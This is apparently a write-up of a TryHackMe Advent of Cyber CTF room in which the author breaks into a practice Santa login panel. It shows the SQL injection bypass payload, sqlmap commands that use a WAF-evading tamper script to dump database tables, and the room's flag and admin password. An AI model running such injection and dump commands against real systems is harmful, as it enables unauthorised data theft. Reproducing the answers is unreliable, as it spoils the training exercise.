 # Day 5

Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using --tamper=space2comment

## Someone stole Santa's gift list!

![sql](sql.png)

Without using directory brute forcing, what's Santa's secret login panel?

/santapanel

![sqli](injection.png)

![map](sqlmap.png)

Here we can enter with 'OR 1=1;-- -

![santa](santa.png)

How many entries are there in the gift database?

22

![alt text](gifts.png)

What did Paul ask for?

Github Ownership

What is the flag?

```shell
sqlmap -r ~/Documents/Proyectos/try-hack-me/learn/25-days-of-security/day-5/req --tamper=space2comment --dbms=SQLite -T hidden_table --dump --batch
```

thmfox{All_I_Want_for_Christmas_Is_You}

Whats the admin password?

```shell
sqlmap -r ~/Documents/Proyectos/try-hack-me/learn/25-days-of-security/day-5/req --tamper=space2comment --dbms=SQLite -T users --dump --batch
```

EhCNSWzzFP6sc7gB

## Links

- https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
- https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file